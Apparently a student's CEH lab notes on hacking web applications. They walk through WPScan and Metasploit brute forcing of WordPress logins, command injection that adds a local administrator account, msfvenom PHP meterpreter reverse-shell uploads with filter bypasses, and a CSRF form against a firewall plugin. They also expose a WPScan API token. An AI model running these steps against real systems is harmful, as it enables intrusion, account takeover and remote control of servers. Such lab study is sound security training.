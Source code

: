# 14 - Hacking Web Apps

#### <mark style="color:red;">**Module 14: Hacking Web Applications**</mark>

<details>

<summary>What is a Web App?</summary>

**Web App** is a software application that runs on web browsers over the internet. Unlike traditional desktop applications, web apps do not need to be installed on a user's device, and users can access them from various devices with internet connectivity and a compatible web browser. Web apps are designed to provide a wide range of functionalities and services, and they have become an integral part of modern online experiences.

Here are some key characteristics and features of web applications:

1. **Accessibility**: Web apps are accessible from any device with an internet connection and a web browser. This makes them platform-independent, as they can run on computers, smartphones, tablets, and other devices.
2. **No Installation**: Users do not need to download or install web apps on their devices. They can simply access them by navigating to a specific web address (URL).
3. **Client-Server Architecture**: Web apps typically follow a client-server architecture. The web browser on the client side interacts with a remote server that hosts the application's back-end logic and data.
4. **Interactivity**: Web apps can offer a wide range of interactive features, such as online shopping, social networking, email, collaboration tools, and more.
5. **Updates and Maintenance**: Updates and maintenance of web apps are typically handled on the server side. Users do not need to manually update the application on their devices.
6. **Cross-Platform Compatibility**: Web apps are designed to work across different operating systems and devices, as long as they have compatible web browsers.
7. **Responsive Design**: Many web apps incorporate responsive design techniques to adapt to various screen sizes and orientations, ensuring a good user experience on both desktop and mobile devices.
8. **Security**: Web app developers need to pay careful attention to security to protect user data and the application itself from various online threats.
9. **User Authentication**: Web apps often include user authentication and authorization features to control access to specific parts of the application or data.
10. **Dynamic Content**: Web apps can deliver dynamic content that changes based on user interactions, user input, or real-time data updates.

</details>

#### Wordpress

* wpscan --url http://10.10.10.12:8080 --enumerate u

#### WP password bruteforce

* msfconsole
* use auxiliary/scanner/http/wordpress\_login\_enum

#### RCE&#x20;

* ping 127.0.0.1 | hostname | net user

### **Perform a Brute-force Attack using Burp Suite**

* Set proxy for browser: 127.0.0.1:8080
* Burpsuite
* Type random credentials
* capture the request, right click-\&gt;send to Intrucder
* Intruder-\&gt;Positions
* Clear $
* Attack type: Cluster bomb
* select account and password value, Add $
* Payloads: Load wordlist file for set 1 and set 2
* start attack
* **filter status==302**
* open the raw, get the credentials
* recover proxy settings

{% content-ref url="../tools/burp-suite.md" %}
[burp-suite.md](../tools/burp-suite.md)
{% endcontent-ref %}

### **Exploit Parameter Tampering and XSS Vulnerabilities in Web Applications**

* Log in a website, change the parameter value (id )in the URL
* Conduct a XSS attack: Submit script codes via text area

### **Enumerate and Hack a Web Application using WPScan and Metasploit**

* **wpscan --api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads --url** [**http://10.10.10.16:8080/CEH**](http://10.10.10.16:8080/CEH) **--plugins-detection aggressive --enumerate u**
  * **--enumerate u: Specify the enumeration of users**
  * **API Token: Register at** [**https://wpscan.com/register**](https://wpscan.com/register)
  * **Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads**
* service postgresql start
* msfconsole
* **use auxiliary/scanner/http/wordpress\_login\_enum**
* show options
* **set PASS\_FILE password.txt**
* **set RHOST 10.10.10.16**
* **set RPORT 8080**
* **set TARGETURI** [**http://10.10.10.16:8080/CEH**](http://10.10.10.16:8080/CEH)
* **set USERNAME admin**
* run
* Find the credential, and use URL http://\[IP Address of Windows Server 2012]:8080/CEH/wp-login.php to login.

{% content-ref url="../tools/wpscan.md" %}
[wpscan.md](../tools/wpscan.md)
{% endcontent-ref %}

### **Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server (DVWA low level security)**

* If found command injection vulnerability in an input textfield
* \| hostname
* \| whoami
* **| tasklist| Taskkill /PID /F**
  * **/PID: Process ID value od the process**
  * **/F: Forcefully terminate the process**
* \| dir C:\\
* **| net user**
* **| net user user001 /Add**
* **| net user user001**
* **| net localgroup Administrators user001 /Add**
* Use created account user001 to log in remotely

### File Upload Vulnerability – All Levels DVWA

#### Payload Creation

* `msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.11 lport=4444 -f raw` | create a raw php code
* Copy the code in a text file and save as .php

#### Low Level Exploitation

* Upload the file | note the path /dvwa/hackable/uploads/.php
* Run listener by starting msfconsole
* Type `use exploit/multi/handler`
* Type `set payload php/meterpreter/reverse_tcp`
* Type `set LHOST 10.10.10.11`
* Start listener, type exploit Browse link of file to start meterpreter session.

#### Medium Level Exploitation

* Rename file as .php.jpg
* While uploading, intercepting with burp and rename back to .php
* Run listener by starting msfconsole
* Type `use exploit/multi/handler`
* Type `set payload php/meterpreter/reverse_tcp`
* Type `set LHOST 10.10.10.11`
* Start listener, type `exploit`
* Browse link of file to start meterpreter session.

#### High Level Exploitation

* Open the .php file and add code GIF98 at start and save file as .jpg
* Upload file
* Now go to command execution tab and use command **\<Some IP>||copy C:\wamp64\www\DVWA\hackable\uploads\<filename>.jpg C:\wamp64\www\DVWA\hackable\uploads\shell.php**
* Run listener by starting msfconsole
* Type `use exploit/multi/handler`
* Type `set payload php/meterpreter/reverse_tcp`
* Type `set LHOST 10.10.10.11` Start listener, type `exploit`
* Browse link of file to start meterpreter session.

## Cross-Site Request Forgery (CSRF)

<details>

<summary>What is CSRF?</summary>

**Cross-Site Request Forgery** (CSRF) is a type of web security vulnerability and attack. In a CSRF attack:

1. Attackers trick users into unknowingly making malicious requests to a web application they're already authenticated on, often by embedding malicious code in a website, email, or other web content.
2. The victim's browser, while authenticated, sends the unauthorized request to the target web application without the user's consent.
3. The web application, unable to distinguish between legitimate and forged requests, processes the request as if it came from the authenticated user.
4. This can lead to actions like changing account settings or making financial transactions without the user's knowledge or consent.

</details>

Here below an example to exploit it.

* Open http://10.10.10.12:8080/CEH/wp-login.php | admin:qwerty@123
* Plugins -> Installed Plugins -> Firewall 2 -> Settings -> View Whitelisted IP
* Run command `wpscan -u http://10.10.10.12:8080/CEH --enumerate vp` | vp vulnerable plugins&#x20;
* Create a form with code
* Save as \<filename.html>

```html
<form method="POST" action="http://10.10.10.12:8080/CEH/wp-admin/options-general.php?
page=wordpress-firewall-2%2Fwordpress-firewall-2.php">
<script>alert("As an Admin, To enable additional security to your Website. Click Submit")</script>
<input type="hidden" name="whitelisted_ip[]" value="10.10.10.11" >
<input type="hidden" name="set_whitelist_ip" value="Set Whitelisted IPs" class="button-
secondary">
<input type="submit">
</form>
```

* Get victim to run it.

## Additional Resources

### Web Scanners

{% embed url="https://geekflare.com/nikto-webserver-scanner/" %}

{% embed url="https://blog.sucuri.net/2015/12/using-wpscan-finding-wordpress-vulnerabilities.htmlhttps://www.hackingtutorials.org/web-application-hacking/hack-a-wordpress-website-with-wpscan/https://linuxhint.com/wpscan_wordpress_vulnerabilities_scan/" %}

{% embed url="https://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-passwords-part-5-creating-custom-wordlist-with-cewl-0158855/" %}

{% embed url="https://www.wpwhitesecurity.com/strong-wordpress-passwords-wpscan/" %}

#### YT videos

[https://www.youtube.com/watch?v=K78YOmbuT48](https://blog.clusterweb.com.br/?p=1297https://hackertarget.com/nikto-tutorial/https://geekflare.com/nikto-webserver-scanner/https://www.youtube.com/watch?v=K78YOmbuT48https://blog.sucuri.net/2015/12/using-wpscan-finding-wordpress-vulnerabilities.htmlhttps://www.hackingtutorials.org/web-application-hacking/hack-a-wordpress-website-with-wpscan/https://linuxhint.com/wpscan\_wordpress\_vulnerabilities\_scan/https://www.youtube.com/watch?v=SS991k5Alp0https://www.youtube.com/watch?v=MtyhOrBfG-Ehttps://www.youtube.com/watch?v=sQ4TtFdaiRAhttps://www.exploit-db.com/docs/english/45556-wordpress-penetration-testing-using-wpscan-and-metasploit.pdf?rsshttps://www.wpwhitesecurity.com/strong-wordpress-passwords-wpscan/https://www.youtube.com/watch?v=BTGP5sZfJKYhttps://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-passwords-part-5-creating-custom-wordlist-with-cewl-0158855/https://medium.com/tech-zoom/dirb-a-web-content-scanner-bc9cba624c86https://www.hackingarticles.in/comprehensive-guide-on-dirb-tool/)[\
\
https://www.youtube.com/watch?v=SS991k5Alp0\
\
https://www.youtube.com/watch?v=MtyhOrBfG-E\
\
https://www.youtube.com/watch?v=sQ4TtFdaiRA\
\
https://www.youtube.com/watch?v=BTGP5sZfJKY](https://blog.clusterweb.com.br/?p=1297https://hackertarget.com/nikto-tutorial/https://geekflare.com/nikto-webserver-scanner/https://www.youtube.com/watch?v=K78YOmbuT48https://blog.sucuri.net/2015/12/using-wpscan-finding-wordpress-vulnerabilities.htmlhttps://www.hackingtutorials.org/web-application-hacking/hack-a-wordpress-website-with-wpscan/https://linuxhint.com/wpscan\_wordpress\_vulnerabilities\_scan/https://www.youtube.com/watch?v=SS991k5Alp0https://www.youtube.com/watch?v=MtyhOrBfG-Ehttps://www.youtube.com/watch?v=sQ4TtFdaiRAhttps://www.exploit-db.com/docs/english/45556-wordpress-penetration-testing-using-wpscan-and-metasploit.pdf?rsshttps://www.wpwhitesecurity.com/strong-wordpress-passwords-wpscan/https://www.youtube.com/watch?v=BTGP5sZfJKYhttps://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-passwords-part-5-creating-custom-wordlist-with-cewl-0158855/https://medium.com/tech-zoom/dirb-a-web-content-scanner-bc9cba624c86https://www.hackingarticles.in/comprehensive-guide-on-dirb-tool/)
